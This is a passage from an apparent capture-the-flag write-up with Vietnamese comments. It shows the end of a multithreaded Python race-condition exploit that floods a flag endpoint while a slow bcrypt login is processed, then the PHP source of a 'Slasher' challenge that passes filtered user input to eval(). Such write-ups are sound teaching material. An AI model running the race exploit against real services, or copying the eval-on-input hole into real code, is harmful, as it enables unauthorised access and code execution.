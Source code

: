 ```python
    workers = 50
    threads = []
    for _ in range(workers):
        t = threading.Thread(target=spam_flag, args=(stop,), daemon=True)
        t.start()
        threads.append(t)

    # 2) Gửi POST / để kích hoạt cửa sổ race (bcrypt cost=14 làm chậm)
    data = {"username": USER, "password": PASS, "submit": "Login"}
    # Không follow redirect để tiết kiệm thời gian
    r = s.post(f"{BASE}/", data=data, allow_redirects=False, timeout=10)

    # 3) Chờ tới khi có flag hoặc hết thời gian
    t0 = time.time()
    timeout = 20
    while time.time() - t0 < timeout and not stop.is_set():
        time.sleep(0.05)

    if not stop.is_set():
        print("[-] Chưa chộp được. Tăng số luồng hoặc chạy lại (do timing).")

if __name__ == "__main__":
    main()

```

## Slasher

> Slashing all the slashes...

source code

```php
<?php
ini_set("error_reporting", 0);
ini_set("short_open_tag", "Off");

set_error_handler(function($_errno, $errstr) {
    echo "Something went wrong!";
});

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

include "flag.php";

$output = null;
if(isset($_POST['input']) && is_scalar($_POST['input'])) {
    $input = $_POST['input'];
    $input = htmlentities($input,  ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
    $input = addslashes($input);
    $input = addcslashes($input, '+?<>&v=${}%*:.[]_-0123456789xb `;');
    try {
        $output = eval("$input;");
    } catch (Exception $e) {
        // nope, nothing
    }
}
?>
<!doctype html>
<html lang="en">
<head>
```